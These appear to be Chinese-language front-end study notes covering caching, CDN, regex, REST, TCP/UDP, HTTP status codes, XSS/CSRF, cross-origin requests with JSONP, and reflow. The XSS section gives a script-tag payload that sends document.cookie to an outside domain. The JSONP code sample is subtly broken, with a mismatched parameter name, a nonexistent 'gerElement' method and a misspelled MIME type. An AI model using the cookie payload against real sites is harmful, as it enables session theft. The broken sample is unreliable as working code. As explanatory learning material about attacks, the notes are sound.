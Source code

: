 # 综合知识

## 一、缓存相关问题

### 1、相关概念

#### 缓存

当没有CDN时，客户端访问网站，先检查本地缓存是否过期，如果过期，则由网站返回新的数据，若没有过期，直接使用缓存资源（200）。

#### 强缓存

强缓存，指的是使用本地的缓存。

#### 协商缓存

协商缓存，是指本地的缓存到期后，与服务器确认缓存是否真正过期，过期返回新的资源（200），没有过期（304资源仍有效）

#### CDN缓存

客户端浏览器先检查是否有本地缓存是否过期：
- 如果过期，则向CDN边缘节点发起请求，CDN边缘节点会检测用户请求数据的缓存是否过期，
- 如果没有过期，则直接响应用户请求，此时一个完成http请求结束；
- 如果数据已经过期，那么CDN还需要向源站发出回源请求（back to the source request）,来拉取最新的数据。

#### CDN缓存策略

一般通过http响应头中的 `Cache-control: max-age` 的字段来设置CDN边缘节点数据缓存时间。

## 二、自定义重写 Select


## 三、正则表达式

#### 常用字符

|符号       |符号意义               |
|-----------|----------------------|
|/...../    |用来表示一个正则匹配表达式。|
|\          |转义字符。|
|/^a/       |表示当第一个字符为a时才能匹配。|
|/t$/       |最后一个字符为t才会匹配。|
|*          |一个字符出现任意次，即匹配。|
|？         |匹配一个字符0次或者1次。|
|{n}        |匹配前边的字符发生n次。例如，/e{3}/ 就会匹配 eee 及>3e 的字符串。|
|{n,m}      |最少n次，最多m次|
|[abcd]     |字符集和，匹配方括号中的任意字符|
|[^abcd]    |匹配不存在方括号中的任意字符|
|\d         |匹配一个数字|
|\D         |匹配一个非数字|


## 四、前后端交互相关

### 1、什么是RESTful接口

`RESTful接口`是一种软件架构设计风格，主要用于前后端的交互，它的重要一个原则是前端的请求是没有状态的，无状态的请求可以由任何服务器回答。
RESTful提倡使用标准的 HTTP 方法，GET对应取、PUT对应修改、POST新增 和 DELETE对应删除。

### 2、TCP和UDP的区别

#### TCP：

- 面向连接，进行数据传输前需要连接。因此连接是点对点的。
- TCP提供可靠的服务。也就是说，通过TCP连接传送的数据，无差错，不丢失，不重复，且按序到达。
    > （Tcp通过校验和，重传控制，序号标识，滑动窗口、确认应答实现可靠传输。如丢包时的重发控制，还可以对次序乱掉的分包进行顺序控制。）
- TCP对系统资源要求较多。

#### UDP：

- 无连接的，进行传输前不需要建立连接。可以是一对一，一对多，多对一和多对多。
- 尽最大努力进行交付，但是不保证交付的可靠性。例如视频网站传输视频。
- UDP具有较好的实时性，工作效率比TCP高，适用于对高速传输和实时性有较高的通信或广播通信。
- UDP对系统资源要求较少。

### 3、HTTP状态码

|代码   |含义           |
|-------|---------------|
|1      |消息           |
|2      |成功           |
|3      |重定向         |
|4      |请求错误       |
|400    |Bad Request    |
|401    |Unauthorized   |
|402    |PaymentRequired|
|403    |Forbidden      |
|404    |Not Found      |
|5      |服务器错误     |
|500    |Internal Server Error|

### 4、浏览器缓存机制


### 5、css、js加载会不会阻塞DOM解析和绘制

CSS不会阻塞DOM的解析，但是会阻塞DOM的绘制。

CSS会阻塞之后的JS的运行。

### 6、XSS和CSRF

#### XSS 

`XSS` 是跨站脚本攻击。
例如：<script>window.open(www.yixiuge.com?content=document.cookie);</script>。也可以写成图片，iframe的形式

### CSRF

`CSRF` 是跨站请求伪造。
攻击者盗用了用户的身份，以用户的名义发送恶意请求，包括：以用户的名义发送邮件，发消息，盗取用户账号等。

### 7、跨域问题场景【细看】

#### 跨域详解

- Ajax直接请求普通文件存在跨域无权限访问的问题，甭管你是静态页面、动态网页、web服务、WCF，只要是跨域请求，一律不准。
- Web页面上调用js文件时则不受是否跨域的影响（不仅如此，我们还发现凡是拥有”src”这个属性的标签都拥有跨域的能力，比如<script>、<img>、<iframe>）


#### DOM同源策略

禁止对不同源页面DOM进行操作, 同源指，域名、协议、端口
如果非同源，js脚本执行时浏览器会报错，提示拒绝访问。（可以下载，但是不可以有数据操作）

#### 跨域问题解决

- [jsonp](../3-javascript/3.1-jquery.md#一、jsonp)

原理：通过动态创建script标签,然后利用src属性进行跨域，设置一个回调函数。

```javascript
// 定义一个fun函数
function fun(fata) {
    console.log(data);
};
// 创建一个脚本，并且告诉后端回调函数名叫fun
var body = document.getElementsByTagName('body')[0];
var script = document.gerElement('script');
script.type = 'text/javasctipt';
script.src = 'demo.js?callback=fun';
body.appendChild(script);
```

> jsonp不能发post请求，只能发get请求。因为它是调用回调函数的方式，在服务器看来只是请求了一个资源。

### 8、重绘 && 重排

一个页面由两部分组成：

- DOM：描述该页面的结构
- render：描述 DOM 节点 (nodes) 在页面上如何呈现

#### 重绘 Repaint

当 DOM 元素的属性发生变化 (如 color) 时, 浏览器会通知 render 重新描绘相应的元素, 此过程称为 repaint。

#### 重排 Reflow

如果该次变化涉及元素布局 (如 width), 浏览器则抛弃原有属性, 重新计算并把结果传递给 render 以重新描绘页面元素, 此过程称为 reflow。

> 重排必定会引发重绘，但重绘不一定会引发重排。   
> 重排对性能的影响要大于重绘。

#### 浏览器解析顺序

1. 解析HTML代码并生成一个 DOM 树。
2. 解析CSS文件，顺序为：浏览器默认样式->自定义样式->页面内的样式。
3. 生成一个渲染树（render tree）。这个渲染树和DOM树的不同之处在于，它是受样式影响的。它不包括那些不可见的节点。
4. 当渲染树生成之后，浏览器就会在屏幕上“画”出所有渲染树中的节点。

#### 优化方法
（1）直接改变元素的className
（2）display：none；先设置元素为display：none；然后进行页面布局等操作；设置完成后将元素设置为display：block；这样的话就只引发两次重绘和重排；
（3）不要经常访问浏览器的flush队列属性；如果一定要访问，可以利用缓存。将访问的值存储起来，接下来使用就不会再引发回流；
（4）使用cloneNode(true or false) 和 replaceChild 技术，引发一次回流和重绘；
（5）将需要多次重排的元素，position属性设为absolute或fixed，元素脱离了文档流，它的变化不会影响到其他元素；
（6）如果需要创建多个DOM节点，可以使用DocumentFragment创建完后一次性的加入document；

## 五、浏览器相关

### 1、浏览器内核

|内核名称   |代表浏览器             |
|-----------|----------------------|
|Trident    |Internet Explore、搜狗 |
|Gecko      |Mozilla、Firefox       |
|WebKit     |Safari、Chrome         |
|Presto     |Opera                  |
